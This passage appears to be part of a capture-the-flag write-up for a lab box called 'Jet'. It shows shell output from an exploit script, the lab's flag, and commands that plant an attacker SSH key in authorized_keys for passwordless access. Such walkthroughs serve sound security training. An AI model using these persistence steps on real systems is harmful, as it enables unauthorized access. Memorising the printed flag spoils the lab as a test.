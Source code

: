 ```
❯ python3 memo.py
[+] Opening connection to 10.13.37.10 on port 7777: Done
[*] Switching to interactive mode
$ id
uid=1007(memo) gid=1007(memo) groups=1007(memo)
$ hostname -I
10.13.37.10 
$ cd /home/memo
$ ls
flag.txt
memo
$ cat flag.txt
Congrats! JET{7h47s_7h3_sp1r17}

                               .\
                         .\   / _\   .\
                        /_ \   ||   / _\
                         ||    ||    ||
                  ; ,     \`.__||__.'/
          |\     /( ;\_.;  `./|  __.'
          ' `.  _|_\/_;-'_ .' '||
           \ _/`       `.-\_ / ||      _
       , _ _`; ,--.   ,--. ;'_ _|,     |
       '`''\| /  ,-\ | _,-\ |/''`'  _  |
        \ .-- \__\_/ /` )_/ --. /   |  |       _
        /    .         -'  .    \ --|--|--.  .' \
       |     /             \     |  |  |   \ |---'
    .   .  -' `-..____...-' `-  .   |  |    |\  _
 .'`'.__ `._      `-..-''    _.'|   |  | _  | `-'      _
  \ .--.`.  `-..__    _,..-'   L|   |    |             |
   '    \ \      _,| |,_      /_7)  |    |   _       _ |  _
         \ \    /       \ _.-'/||        | .' \     _| |  |
          \ \  /.'|   |`.__.'` ||     .--| |--- _   /| |  |
           \ `//_/     \       ||    /   | \  _ \  / | |  |
            `/ \|       |      ||   |    |  `-'  \/  | '--|      _
             `"`'.  _  .'      ||    `--'|                |   .--/  
                  \ | /        ||                         '--'
                   |'|  mx     'J        made me do it! ;)
                .-.|||.-.
               '----"----'
$
```

  

Again we send our password `publica`to the directory `.ssh`as a key `autorizada`so we can connect and get a shell `ssh`without a password

```
$ mkdir .ssh
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE7DwLVBJlEPeKvWMKsQTsU7m4ULfVSJRx1hVaZAo0Rv kali@kali" > .ssh/authorized_keys  
$
```

  

```
❯ ssh memo@10.13.37.10
memo@jet:~$ id
uid=1007(memo) gid=1007(memo) groups=1007(memo)  
memo@jet:~$ hostname -I
10.13.37.10 
memo@jet:~$ head -n1 flag.txt 
Congrats! JET{7h47s_7h3_sp1r17}
memo@jet:~$
```